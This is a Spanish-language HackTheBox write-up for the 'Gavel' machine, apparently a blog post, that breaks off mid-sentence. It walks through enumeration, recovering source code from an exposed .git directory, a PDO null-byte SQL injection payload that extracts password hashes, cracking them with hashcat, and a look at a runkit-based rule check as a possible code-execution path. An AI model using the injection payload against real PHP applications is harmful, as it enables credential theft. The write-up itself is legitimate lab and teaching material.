








+++
title = "HackTheBox - Gavel"
draft = false
description = "Resolución de la máquina Gavel"
tags = ["HTB", "Linux", "Medium", "SQLi", "PDO", "Reversing", "Ghidra", "Custom Binary"]
summary = "OS: Linux | Dificultad: Medium | Conceptos: SQLi, PHP PDO, Reversing, Custom Binary"
categories = ["Writeups"]
showToc = true
date = "2026-03-12T00:00:00"
showRelated = true
+++

* Dificultad: `medium`
* Tiempo aprox. `~8.5h` (`+3h Decompilando`)
* **Datos Iniciales**: `10.129.9.253`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:

```bash {hl_lines=[2,6]}
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:de:9d:84:bf:a1:64:be:1f:36:4f:ac:3c:52:15:92 (ECDSA)
|_  256 70:a5:1a:53:df:d1:d0:73:3e:9d:90:ad:c1:aa:b4:19 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://gavel.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#Nada en UDP (Solo DHCP)
```

* `22/TCP (SSH)` Versión vulnerable a RegreSSHion pero con difícil explotación, posiblemente no sea el vector.
* `80/TCP (HTTP)`: Se nos redirige a `gavel.htb`, lo añadimos a `/etc/hosts` y buscamos subdominios.

## HTTP, gavel.htb

Antes de nada, buscamos subdominios:

```bash
$ gobuster vhost --url http://gavel.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -ad        
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://gavel.htb
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
kubernetes.gavel.htb Status: 301 [Size: 311] [--> http://gavel.htb/]
image.gavel.htb Status: 301 [Size: 306] [--> http://gavel.htb/]
m.gavel.htb Status: 301 [Size: 302] [--> http://gavel.htb/]
secure.gavel.htb Status: 301 [Size: 307] [--> http://gavel.htb/]
default.gavel.htb Status: 301 [Size: 308] [--> http://gavel.htb/]
...
#Parece que los que no sirven nos redirigen a gavel.htb de nuevo
#Podemos probar a filtrar los que nos redirigen a gavel.htb

$ gobuster vhost --url http://gavel.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -ad  | grep -v 'http://gavel.htb/' 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://gavel.htb
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
# No sale nada
```

No hemos podido encontrar ningún subdominio nuevo, así que vamos directos a `gavel.htb`.

Al entrar, encontramos una página web para, al parecer, realizar pujas de ciertos objetos.&#x20;



Desde esta página vemos 2 cosas relevantes:

* En el título se indica "Gavel 2.0", pueden ser el servicio y versión reales?
  * Con el `We don't talk about Gavel 1.0. Ever. (It ended in fire, lawsuits, and one mysteriously vanishing moon.)` de abajo podemos deducir que simplemente se trata del contexto de la máquina más que de la versión técnica.
* Se pueden crear usuarios, así que creamos uno `username:password`.

Mientras tanto, hacíamos un análisis de directorios:

```bash
$ gobuster dir -u http://gavel.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x php
===============================================================
index.php            (Status: 200) [Size: 13993]
login.php            (Status: 200) [Size: 4281]
register.php         (Status: 200) [Size: 4485]
admin.php            (Status: 302) [Size: 0] [--> index.php]
assets               (Status: 301) [Size: 307] [--> http://gavel.htb/assets/]
rules                (Status: 301) [Size: 306] [--> http://gavel.htb/rules/]
includes             (Status: 301) [Size: 309] [--> http://gavel.htb/includes/]
logout.php           (Status: 302) [Size: 0] [--> index.php]
inventory.php        (Status: 302) [Size: 0] [--> index.php]
server-status        (Status: 403) [Size: 274]
bidding.php          (Status: 302) [Size: 0] [--> index.php]
```

Una vez con un usuario, hacemos una puja de 2000 por un objeto para ver qué pasa.


Vemos que se hace una solicitud a `bid_handler.php`:



Y una vez ha acabado el tiempo, entramos a nuestro inventario:



### Probando XSS

Aquí podemos ver que arriba a la izquierda aparece nuestro username, podríamos probar a ver si la página es vulnerable a un Stored XSS. Pero cuando intentamos crear un usuario malicioso:



Además, desde BurpSuite vemos que la comprobación se realiza del lado del servidor, así que no hay mucho que podamos hacer.

### Probando SQLi

Si hacemos una solicitud a `inventory.php` y la interceptamos con BurpSuite, podemos ver que es algo así:

```http
POST /inventory.php HTTP/1.1
Host: gavel.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://gavel.htb/inventory.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://gavel.htb
Connection: keep-alive
Cookie: gavel_session=u6j36l8aubq24hgg3e3rmv8ldr
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=2&sort=quantity
```

Si se está devolviendo el inventario de nuestro usuario en función de `user_id=2` y se ordena en función de `sort`, podemos tratar de hacer algunas inyecciones SQL:

Mandamos esto para ver si podemos ver todos los objetos de inventarios de los usuarios:

```http
user_id=1'+or+1%3d1--+-&sort=quantity
```

Y vemos que no se nos devuelve nada (inventario vacío), así que posiblemente `user` no sea inyectable. Por otro lado, si probamos con `sort`, vemos que si su valor no es `quantity` ni `name` no se devuelve nada, y tampoco es inyectable.

### Más enumeración, Source Code Disclosure

Pasado un rato, pruebo a enumerar el directorio en que se encontraba `bid_handler.php`: `includes/`.

```bash
$ gobuster dir -u http://gavel.htb/includes/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x php
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
db.php               (Status: 200) [Size: 0]
config.php           (Status: 200) [Size: 0]
auction.php          (Status: 200) [Size: 0]
session.php          (Status: 200) [Size: 0]
```

Pero, tras echar un vistazo, veo que no dan info nueva ni sirven como vectores de entrada. El único que hacía algo relevante era `session.php` porque daba cookies de sesión, pero tampoco podía hacerse nada con ellas.

Dedido volver a hacer un escaneo nmap por si nos habíamos dejado algo antes, y encuentro lo siguiente:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Gavel Auction
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-git: 
|   10.129.9.253:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: .. 
Service Info: Host: gavel.htb
```

> [!TIP]+ Scans de Nmap
> _Aquí aprendo que nmap también activa unos u otros scripts (-sC) en función de si trabaja sobre **una IP** o si lo hace sobre un **nombre de dominio** (Algo evidente pero que no hubiese pensado que marcaría una diferencia). Además, antes es muy probable que no hubiese encontrado el repositorio porque ni siquiera pudiese haber llegado a él, dado que cualquier solicitud resultaba en un redirect a `gavel.htb` que no daba ninguna información nueva._

> [!NOTE]+ _**Conclusión**_
> _Hacer futuros escaneos de nmap que vayan a servicios HTTP **después de tener el nombre de dominio** (si se nos redirige automáticamente), para que nmap pueda usar sus scripts completos._

Si miramos los archivos en el `.git`, encontramos `http://gavel.htb/.git/config`:

```txt
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = sado
	email = sado@gavel.htb
```

Gracias a que en el `.git` se guardan los cambios realizados (commits), estructuras de directorios y backups completos, podemos reconstruir el directorio al 100% si lo descargamos:

```bash
$ wget -e robots=off -r --no-parent --no-host-directories http://gavel.htb/.git/
$ git init .
$ git checkout -f 

$ ls -al
total 96
drwxrwxr-x  6 kali kali  4096 Mar  5 14:55 .
drwx------ 33 kali kali  4096 Mar  5 14:55 ..
-rwxrwxr-x  1 kali kali  8820 Mar  5 14:55 admin.php
drwxrwxr-x  6 kali kali  4096 Mar  5 14:55 assets
-rwxrwxr-x  1 kali kali  8441 Mar  5 14:55 bidding.php
drwxrwxr-x  8 kali kali  4096 Mar  5 14:55 .git
drwxrwxr-x  2 kali kali  4096 Mar  5 14:55 includes
-rwxrwxr-x  1 kali kali 14520 Mar  5 14:55 index.php
-rwxrwxr-x  1 kali kali  8384 Mar  5 14:55 inventory.php
-rwxrwxr-x  1 kali kali  6408 Mar  5 14:55 login.php
-rwxrwxr-x  1 kali kali   161 Mar  5 14:55 logout.php
-rwxrwxr-x  1 kali kali  7058 Mar  5 14:55 register.php
drwxrwxr-x  2 kali kali  4096 Mar  5 14:55 rules 
```

Y tenemos el código fuente. Haciendo algo más de enumeración:

* En `includes/config.php`:

```php
define('DB_HOST', 'localhost');
define('DB_NAME', 'gavel');
define('DB_USER', 'gavel');
define('DB_PASS', 'gavel');
```

### SQLi (de nuevo)

Aunque antes hayamos hecho una enumeración muy leve de SQLi, conviene buscar más ahora que tenemos el código fuente delante.

Normalmente en las conexiones PHP-DB se usan prepared statements con parámetros. Primero se envía al servidor SQL una plantilla del query y luego los valores del usuario se pasan por separado para que la DB sepa que los valores del usuario son datos sin más.

La vulnerabilidad aparece cuando el desarrollador concatena directamente el input del usuario dentro del string SQL antes de ejecutarlo, lo que hace que se pase un query SQL ya modificado por el usuario a la DB.

Esto está bien:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$_POST['user'], $_POST['pass']]);
```

Esto es vulnerable:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = '" . $_POST['user'] . "'");
$stmt->execute();
```

Usar `prepare()` sin más no hace que la consulta sea segura, lo que determina la seguridad y la potencial vulnerabilidad a SQLi es el usar los parámetros dentro directamente o pasarlos junto con el query aparte.

Si buscamos los queries SQL realizados en todos los archivos del servidor web, y de entre ellos escogemos los que tienen el segundo formato de los anteriores:

```bash
$ grep -r "prepare" --context=2 | grep -viE 'js|css|html|hooks'

...[SNIP]...
inventory.php:        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
```

Hemos encontrado un caso posiblemente vulnerable, aunque tiene una distinción clave con los explicados anteriormente, y es que el punto vulnerable no está tras un `WHERE` (user input son datos), sino tras un `SELECT` (user input es una tabla, columna o db) con `$col`, que se escapa de forma diferente y se trata de forma diferente.

#### Explicación: Null Byte SQLi in PDO

Basándonos en la info de algunas páginas (Principalmente [SLCyber](https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/)) podemos explicar la vulnerabilidad y la posterior explotación.

Partimos de qué es PDO:

> _PDO (PHP Data Objects) es una extensión de PHP que proporciona una interfaz para acceder a bases de datos (de las extensiones para ello más usadas) desde aplicaciones PHP. Permite usar las mismas funciones para interactuar con diferentes bases de datos, como MySQL, PostgreSQL, SQLite, etc._

Para pasar el input del usuario y la consulta a la base de datos desde un servicio web, idealmente se haría lo siguiente **en 2 viajes** (Prepared Statement):

1. Estructura: El servicio web manda la consulta a la DB, pero con un placeholder: `SELECT * FROM users WHERE username = ?`, y la DB se bloquea, esperando al dato que va en `?`
2. Datos: El servicio web manda a la DB el valor. Como la DB ya tiene el query, mande lo que mande el usuario se tomará como dato, independientemente de si es `admin` o `user' OR 1=1 -- -`, la DB lo tratará como texto. Como la estructura ya estaba creada y bloqueada en el primer paso, es imposible que el dato enviado en el segundo paso altere la lógica del query, de ahí que esto sea seguro.

El problema que hace que nuestro caso sea vulnerable es la siguiente línea de la página citada antes:

> _In fact, PDO emulates all prepared statements in MySQL by default. Unless you explicitly disable `PDO::ATTR_EMULATE_PREPARES` PDO will actually do all the escaping itself before your query even hits the database._

Esto significa que (por razones históricas), PDO en PHP no usa ese "modelo ideal", sino que **emula** el prepared statement. PDO actúa como intermediario que toma la consulta con los placeholders (`?`), la procesa y construye un string único que manda a la base de datos como un solo query. A ojos del desarrollador puede parecer un prepared statement, pero a ojos de la DB, no es un prepared statement, sino una única consulta SQL normal.

> **Cómo hace PDO esa emulación?** Si PDO es el encargado de unir el query con los datos antes de enviarlo a la DB, tiene que buscar dónde están los placeholders (`?`) para reemplazarlos y luego construir el string con todo.

Podría parecer algo muy simple, pero si el desarrollador pone algo como:

```sql
SELECT * FROM songs WHERE title = 'Who are you?' AND author_id = ?
```

Y se leen y reemplazan indiscriminadamente los `?` según se encuentran, el input del usuario "`The Who`" iría al `?` de "`Who are you?`" y no al de "`author_id = ?`", rompiendo la consulta. Por eso **hace falta un criterio para saber dónde y dónde no sustituir**.

Para solucionar eso, los creadores de PHP hicieron un parser dentro del código fuente de PDO que funciona de la siguiente manera:

* Si se ve una comilla simple (') o un backtick (\`), se considera un string literal y no se reemplaza ningún `?` hasta que no se cierra el string.

El problema en esto es que el parser define que los caracteres válidos que puede haber dentro de un string (entre comillas) son cualquier cosa entre `\001` y `\377`, es decir, que si pasamos un Null Byte (`0x00`) `\0`, el parser se lía porque `\0` no está en la lista de permitidos, lo que hace que retroceda (backtrack).

Este backtrack provoca que el parser vuelva al inicio de string, pero con el backtick o la comilla original pasando a ser ignorados, lo que hará que cuando se vea el signo de interrogación del usuario `?` se tome como un parámetro válido y se sustituyan los datos en ese `?`.

#### Explotación

Si ahora volvemos al contexto completo:

```inventory.php
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$col = "`" . str_replace("`", "", $sortItem) . "`";
try {
    if ($sortItem === 'quantity') {
        $stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
        $stmt->execute([$userId]);
    } else {
        $stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
        $stmt->execute([$userId]);
    }
```

Vemos que se toma el input, se le quitan los backticks, y se guarda en `col`. Si nuestro input tenía backticks, el código irá al bloque `else` que nos llevará al siguiente query:

```sql
SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC
```

Aquí controlamos dos elementos:

* `col`: Columna, input en el que se borran los backticks.
* `user_id`: Parámetro que se pasa de forma segura a `execute()`

Podemos usar un payload como el mostrado [aquí](https://github.com/sqlmapproject/sqlmap/issues/5990):

```sql
sort=\?;-- %00
user_id=x` FROM (SELECT password AS `'x` FROM users)y;-- -
```

En `sort`:

* `\` permite escapar la comilla simple que PDO pondrá cuando inyecte nuestro `user_id` en el `?`, el nombre de la columna será literalmente `\'x`
* `?` es el falso parámetro, aquí irá `user_id`
* `;-- -` es un comentario de SQL, para que PDO deje de buscar parámetros después de este.
* `%00` es el Null Byte, el causante de la vulnerabilidad. Cuando PDO lo lea la primera vez, retrocederá al inicio del string y dejará de tomar el `?` anterior como string.

En `user_id`:

* `x` es un caracter de relleno, valdría cualquiera.
* (\`) sirve para cerrar el string que define el nombre de la columna
* `(SELECT ... FROM users)` es una subconsulta SQL
  * El `AS` dentro fuerza a que la subconsulta devuelva una columna llamada igual que la columna original (`'x`), dado que, si el nombre no es igual, la consulta dará un error.
* `;-- -` es un comentario que termina la consulta.

Mandamos el payload codificado para URL y:



Probamos ahora a usar `SELECT username` en lugar de `password` y conseguimos el usuario `auctioneer`:



De todas formas, este usuario estaba también hardcodeado en el código fuente de `inventory.php`:

```bash
$ grep --context=3 "auctioneer" inventory.php 
                        <span>Bidding</span>
                    </a>
                </li>
                <?php if ($_SESSION['user']['role'] === 'auctioneer'): ?>
                    <li class="nav-item">
                        <a class="nav-link" href="admin.php">
                            <i class="fas fa-tools"></i>
```

#### Crackeando Hashes

Así que tenemos el usuario `auctioneer` y 2 hashes, pero uno de ellos pertenece al usuario `username` creado por nosotros, cuya contraseña es `password`, así que el otro es de `auctioneer`.

```hashes.txt
$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS
$2y$10$MDN/2yk9QVwQo/QRXR/lzuqxjiUouX4sbmX3j5Uyy2ys.N6px.oR6
```

Los metemos a hashcat con `-m 3200` (Blowfish) y sacamos:

```cracked.txt
username:password -> El que ya sabíamos
auctioneer:midnight1
```

Probamos a conectarnos por SSH:

```bash
$ ssh auctioneer@gavel.htb
auctioneer@gavel.htb's password: 
Permission denied, please try again.
auctioneer@gavel.htb's password:
```

Pero no parece ser para SSH, así que vamos a la web e iniciamos sesión como auctioneer.

### Panel de Admin

Entramos al panel de admin y encontramos lo siguiente:



No parece que podamos hacer mucho más que lo que podíamos hacer antes, pero ahora tenemos permiso para modificar 2 cosas:

* **Mensaje de cada elemento que se puja**: Potencial XSS? De todas formas, no serviría de mucho ni siquiera para robar cookies porque ya somos el user más privilegiado de la app web.
* **Regla a comprobar cuando un usuario puja**: Según como se compruebe esto a nivel de servidor, podríamos conseguir RCE.

Como tenemos acceso al código fuente, podemos echar un ojo a `bidding.php`, `bid_handler.php` y a `admin.php`.

Cuando estamos en `bidding.php` e intentamos realizar una puja, mandamos un mensaje POST a `bid_handler.php`, que hace lo siguiente:

* Comprueba que la puja no ha terminado (sigue activa)
* Comprueba que nuestra puja es mayor que 0
* Comprueba que nuestra puja es mayor que la actual
* Comprueba que tenemos suficiente dinero
* **Comprueba que se cumple la regla custom**

Esto último se hace en estas líneas:

```bid_handler.php
$rule = $auction['rule']; // Almacenado en la DB
...
$rule = $auction['rule']; // Almacenado en la DB
$rule_message = $auction['message']; // Almacenado en la DB

$allowed = false;

try {
    if (function_exists('ruleCheck')) {
        runkit_function_remove('ruleCheck');
    }
    runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
    error_log("Rule: " . $rule);
    $allowed = ruleCheck($current_bid, $previous_bid, $bidder);
} catch (Throwable $e) {
    error_log("Rule error: " . $e->getMessage());
    $allowed = false;
}

if (!$allowed) {
    echo json_encode(['success' => false, 'message' => $rule_message]);
    exit;
}

//Tras esto se realiza la transacción
```

* Se comprueba si existe una regla, y si existe, se borra
* Se crea una nueva regla en base a lo que hay en `$rule`
* Se establece el parámetro `$allowed` en función a si se cumple o no la regla.

El motivo por el cual primero se borra una posible regla existente (`runkit_function_remove`) y luego se crea de nuevo (`runkit_function_add`) puede ser para actualizar la regla si el administrador la ha cambiado recientemente, porque si no se haría la comprobación sobre una regla obsoleta.

Por otro lado, no sé del todo cómo funciona `runkit_function_add` más allá de la generalización de que "crea una función", así que tendremos que mirar más a fondo. Tras mirar en un manual de PHP:

```php
